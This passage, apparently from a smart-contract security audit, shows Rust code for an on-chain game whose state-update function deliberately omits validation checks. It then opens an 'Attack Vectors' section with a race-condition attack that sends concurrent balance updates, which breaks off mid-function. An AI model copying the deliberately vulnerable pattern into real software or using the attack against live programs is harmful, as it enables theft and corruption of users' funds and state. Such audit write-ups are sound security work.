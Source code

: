 ```rust

        Ok(())
    }

    // VULNERABLE: State updates without proper validation
    pub fn update_game_state(&mut self, new_state: GameStateUpdate) -> Result<()> {
        // NO VALIDATION: State transition validity not checked
        match new_state.update_type {
            UpdateType::PlayerJoin => {
                self.players.insert(new_state.player, PlayerInfo::default());
                self.player_count += 1;
                // MISSING: Check if game is full, if player already joined, etc.
            }
            UpdateType::PlayerLeave => {
                self.players.remove(&new_state.player);
                self.player_count -= 1;
                // MISSING: Check if player was actually in the game
            }
            UpdateType::GameEnd => {
                self.status = GameStatus::Ended;
                // MISSING: Validate that game can actually end
            }
        }

        // NO CONSISTENCY CHECK: State might now be invalid
        Ok(())
    }
}
```

### Attack Vectors

#### 1. Race Condition Exploitation Attack
```rust
// Exploit: Exploit race conditions to create inconsistent state
pub struct RaceConditionAttack {
    target_program: Pubkey,
    attacker_keys: Vec<Keypair>,
    coordination_delay: Duration,
}

impl RaceConditionAttack {
    pub fn execute_concurrent_balance_attack(&self) -> Result<AttackResult> {
        let target_account = &self.attacker_keys[0].pubkey();

        // Create multiple concurrent transactions targeting the same account
        let mut handles = Vec::new();

        for i in 0..10 {
            let keypair = &self.attacker_keys[i % self.attacker_keys.len()];
            let target = *target_account;

            let handle = std::thread::spawn(move || {
                // Concurrent balance modifications
                let instruction = create_balance_update_instruction(&target, 1000);
                // All threads execute simultaneously
                process_instruction_concurrent(&instruction)
            });

            handles.push(handle);
        }

        // Synchronize attack timing
```